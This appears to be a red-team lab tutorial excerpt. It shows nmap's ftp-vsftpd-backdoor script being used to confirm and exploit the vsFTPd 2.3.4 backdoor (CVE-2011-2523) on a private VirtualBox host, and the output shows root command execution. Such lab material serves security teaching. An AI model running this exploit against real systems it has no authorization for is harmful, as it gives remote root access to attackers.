 ```python
```

<font color='red'>Red Team</font>
To learn more about an on-system NSE script, use the `--script-help` option. 
```bash
nmap --script-help ftp-vsftpd-backdoor
```
```python
Starting Nmap 7.70 ( https://nmap.org ) at 2018-12-02 09:48 EST

ftp-vsftpd-backdoor
Categories: exploit intrusive malware vuln
https://nmap.org/nsedoc/scripts/ftp-vsftpd-backdoor.html
  Tests for the presence of the vsFTPd 2.3.4 backdoor reported on 2011-07-04
  (CVE-2011-2523). This script attempts to exploit the backdoor using the
  innocuous <code>id</code> command by default, but that can be changed with
  the <code>exploit.cmd</code> or <code>ftp-vsftpd-backdoor.cmd</code> script
  arguments.

  References:

  * http://scarybeastsecurity.blogspot.com/2011/07/alert-vsftpd-download-backdoored.html
  * https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/unix/ftp/vsftpd_234_backdoor.rb
  * http://cve.mitre.org/cgi-bin/cvekey.cgi?keyword=CVE-2011-2523
```

Here, we will only run the `ftp-vsftpd-backdoor` NSE script against our target's FTP port (`-p21`). The results will essentially be the same as our `--script vuln` scan yet, without information about other ports or services. 
```bash
nmap --script ftp-vsftpd-backdoor -p21 192.168.56.4
```
```python
Starting Nmap 7.70 ( https://nmap.org ) at 2018-12-02 09:50 EST
Nmap scan report for 192.168.56.4
Host is up (0.00065s latency).

PORT   STATE SERVICE
21/tcp open  ftp
| ftp-vsftpd-backdoor: 
|   VULNERABLE:
|   vsFTPd version 2.3.4 backdoor
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2011-2523  OSVDB:73573
|       vsFTPd version 2.3.4 backdoor, this was reported on 2011-07-04.
|     Disclosure date: 2011-07-03
|     Exploit results:
|       Shell command: id
|       Results: uid=0(root) gid=0(root)
|     References:
|       http://osvdb.org/73573
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2011-2523
|       https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/unix/ftp/vsftpd_234_backdoor.rb
|_      http://scarybeastsecurity.blogspot.com/2011/07/alert-vsftpd-download-backdoored.html
MAC Address: 08:00:27:30:63:69 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 5.54 seconds
```
